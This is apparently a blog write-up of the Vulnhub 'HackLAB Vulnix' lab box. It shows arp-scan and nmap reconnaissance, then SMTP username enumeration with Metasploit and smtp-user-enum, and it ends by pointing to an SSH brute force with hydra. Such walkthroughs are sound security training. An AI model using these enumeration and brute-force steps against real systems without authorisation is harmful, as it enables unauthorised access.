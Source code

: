 ```yaml
---
title: Vulnhub - HackLAB Vulnix
description: My writeup on HackLAB Vulnix box.
categories:
 - vulnhub
tags: vulnhub smtp metasploit smtp-user-enum hydra
---
```


![](https://i.imgur.com/B2q8rOI.jpg)

## Box Stats

| Box Info      | Details       | 
| ------------- |:-------------:| 
| Box Name :    | **HackLAB Vulnix**  | 
| Series :      | **HackLAB**         |
| Difficulty :  | **Medium**             |   
| Release Date :| **10 Sep 2012**      |    
| OS :          | **GNU/Linux**        |   
| Maker :       | [Reboot User](https://twitter.com/oshearing){:target="_blank"}     | 
| Download :    | [HackLAB Vulnix](https://www.vulnhub.com/entry/hacklab-vulnix,48/){:target="_blank"}      | 
| Recommended : | Yes :heavy_check_mark:      | 

## Summary

Ah, many years have passed since i pwned this box. I did this box with my friend `@Redfox`, it was a great teamwork. Let's pwn it! :sunglasses:

## PoC 

![]()

## Target IP

Always first step is to find target IP address, i prefer to use the `arp-scan` utility. Then we'll save the IP address in a variable. 

```
$ arp-scan --localnet | grep "VMware"
192.168.1.21	00:0c:29:a8:8a:f7	VMware, Inc.
$ ip=192.168.1.21
```

## Enumeration/Reconnaissance

Now as always let's continue with a nmap scan.

```
$ nmap -p- -sC -sV -oN nmap/vulnix.vulnhub $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-29 12:59 EET
Nmap scan report for vulnix.zte.com.cn (192.168.1.21)
Host is up (0.0032s latency).
Not shown: 65518 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_  256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: 2020-11-29T11:03:13+00:00; +4s from scanner time.
79/tcp    open  finger     Linux fingerd
|_finger: No one logged on.\x0D
110/tcp   open  pop3?
|_ssl-date: 2020-11-29T11:03:13+00:00; +4s from scanner time.
111/tcp   open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37743/tcp6  mountd
|   100005  1,2,3      38588/udp   mountd
|   100005  1,2,3      39752/tcp   mountd
|   100005  1,2,3      56194/udp6  mountd
|   100021  1,3,4      41725/udp6  nlockmgr
|   100021  1,3,4      50894/tcp6  nlockmgr
|   100021  1,3,4      53356/tcp   nlockmgr
|   100021  1,3,4      59885/udp   nlockmgr
|   100024  1          39049/udp   status
|   100024  1          48215/udp6  status
|   100024  1          50402/tcp6  status
|   100024  1          50714/tcp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
143/tcp   open  imap       Dovecot imapd
|_ssl-date: 2020-11-29T11:03:13+00:00; +4s from scanner time.
512/tcp   open  exec?
513/tcp   open  login      OpenBSD or Solaris rlogind
514/tcp   open  tcpwrapped
993/tcp   open  ssl/imaps?
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2020-11-29T11:03:12+00:00; +3s from scanner time.
995/tcp   open  ssl/pop3s?
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2020-11-29T11:03:12+00:00; +3s from scanner time.
2049/tcp  open  nfs_acl    2-3 (RPC #100227)
39752/tcp open  mountd     1-3 (RPC #100005)
48722/tcp open  mountd     1-3 (RPC #100005)
50714/tcp open  status     1 (RPC #100024)
53356/tcp open  nlockmgr   1-4 (RPC #100021)
57501/tcp open  mountd     1-3 (RPC #100005)
```

Ton of services, a good practise is to take them one by one. So a good start is the SMTP, SMTP (Simple Mail Transfer Protocol) is mostly used for sending out emails. SMTP allow us to perform username enumeration via the VRFY and EXPN commands.

```
VRFY = The server is asked to verify if a email address or username exists.
EXPN = This SMTP command asks for a confirmation about the identification.
```

I'll show you 2 ways to do that, with `metasploit` & `smtp-user-enum`.

Metasploit (Takes some time):

```
$ service postgresql start; msfconsole -q
msf6 > search name:smtp type:auxiliary

Matching Modules
================

   #  Name                                     Disclosure Date  Rank    Check  Description
   -  ----                                     ---------------  ----    -----  -----------
   ... data ...
   3  auxiliary/scanner/smtp/smtp_enum                          normal  No     SMTP User Enumeration Utility
   ... data ...
   
msf6 > use auxiliary/scanner/smtp/smtp_enum
msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOST 192.168.1.21
RHOST => 192.168.1.21
msf6 auxiliary(scanner/smtp/smtp_enum) > exploit

[*] 192.168.1.21:25       - 192.168.1.21:25 Banner: 220 vulnix ESMTP Postfix (Ubuntu)
[+] 192.168.1.21:25       - 192.168.1.21:25 Users found: , backup, bin, daemon, games, gnats, irc, landscape, libuuid, list, lp, mail, man, messagebus, news, nobody, postfix, postmaster, proxy, sshd, sync, sys, syslog, user, uucp, whoopsie, www-data
[*] 192.168.1.21:25       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

smtp-user-enum (Kali has it pre-installed or you can find [here](https://github.com/pentestmonkey/smtp-user-enum){:target="_blank"}:

```
$ smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $ip                                                                                 

######## Scan started at Sun Nov 29 14:09:22 2020 #########
192.168.1.21: backup exists
192.168.1.21: bin exists
192.168.1.21: daemon exists
192.168.1.21: games exists
192.168.1.21: gnats exists
192.168.1.21: irc exists
192.168.1.21: landscape exists
192.168.1.21: libuuid exists
192.168.1.21: lp exists
192.168.1.21: list exists
192.168.1.21: man exists
192.168.1.21: mail exists
192.168.1.21: messagebus exists
192.168.1.21: nobody exists
192.168.1.21: news exists
192.168.1.21: postmaster exists
192.168.1.21: postfix exists
192.168.1.21: proxy exists
192.168.1.21: root exists
192.168.1.21: ROOT exists
192.168.1.21: sshd exists
192.168.1.21: sync exists
192.168.1.21: sys exists
192.168.1.21: syslog exists
192.168.1.21: user exists
192.168.1.21: uucp exists
192.168.1.21: whoopsie exists
192.168.1.21: www-data exists
```

We can detect 2 "weird" usernames the `user` & `whoopsie` so we can perform a SSH brute force attack now using `hydra`. A brute force on `user` will give us access. Note: You **_MUST_** use number of connects in parallel(-t 4).




